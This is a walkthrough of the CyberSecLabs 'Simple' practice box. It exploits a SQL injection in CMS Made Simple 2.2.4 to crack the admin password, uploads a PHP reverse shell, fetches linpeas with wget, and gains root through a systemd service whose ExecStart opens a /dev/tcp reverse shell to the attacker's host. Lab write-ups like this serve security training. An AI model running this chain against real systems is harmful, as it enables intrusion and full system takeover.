 # CyberSecLabs:SIMPLE 

```zsh
nmap -sS -p- -Pn -v -T4 172.31.1.2
```
You will see that port ```22``` and ```80```

Once you visit you will see a website running a CMS called ```CMS MADE SIMPLE``` with version ```2.2.4```

Run a dirsearch for directory fuzzing.
```zsh
python3 dirsearch.py -u http://172.31.1.3:80 -e r -R 3
```
Dirsearch is not an inbuilt tool. You can download/clone it from github.
> https://github.com/maurosoria/dirsearch

Now you will this in the result and when you visit it , it will take you to an admin login. Default creds and combination dinot work.
```http://172.31.1.2/admin/login.php```

```zsh 
searchsploit cms made simple 2.2.4
```

You will get this:
```
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```
Copy it to your work folder 

```zsh
searchsploit -m php/webapps/46635.py
```
Now check it's usage using ```--help```

It is basically a Time Based Sqli. You can find resources on it and read on them over the internet.


```zsh
python 46635.py -u http://172.31.1.2 -c -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 18207a2929431d9f
[+] Username found: david
[+] Email found: david@simple.csl
[+] Password found: bbeabbca0fff4e851f840ffad0680dcf
[+] Password cracked: punisher
```
Now login with the creds ```david:punisher```. Once you go in visit the file manager and browse to
```uploads >> images```.

We will try to upload reverse shell here. But it will block it. Here they are doing a content based filteration. So my trick of double extension and changin ```content type``` header didnot work. I confirmed this by looking at the content type displayed by the app

Grab a php reverse shell and put it in your work folder.
```cp /usr/share/webshells/php/php-reverse-shell.php .```
Start a listener
```zsh
rlwrap nc -lvnp 443
```
Change your IP and put the port where you are listening. And now rename the php reverse shell file with ```.phtml```
Here is a small list which I like to try:
```php phtml, .php, .php3, .php4, .php5, and .inc```

Now when just visit the page and go to your listener, you will have a shell.

Browse to the home directory of the user (/home/david). Grab the user flag and now for privsec upload ```linpeas``` from your machine.

Host it using a python server where you :
 ```python -m SimpleHTTPServer 80```

And in the shell use ```wget``` to upload it.

```sh
wget http://10.10.0.40:80/linpeas.sh
```
Now run it using ```./linpeas.sh``` and you will see it highlighting ```/etc/systemctl```  with red and yellow which means it is 99 percent the privesc vector. 

I wrote a small service for it known as ```myserv.service ``` and uploaded it in the home directory of david.

```
[Unit]
Description = Bitchroot

[Service]
Type=Simple
user=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.40/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Now, you can run it using the following commands in the sequence and start a listener which you specified in the service file.

```sh
/bin/systemctl enable /home/david/myserv.service

/bin/systemctl start myserv
```
Now you check the shell, you will have a root shell !

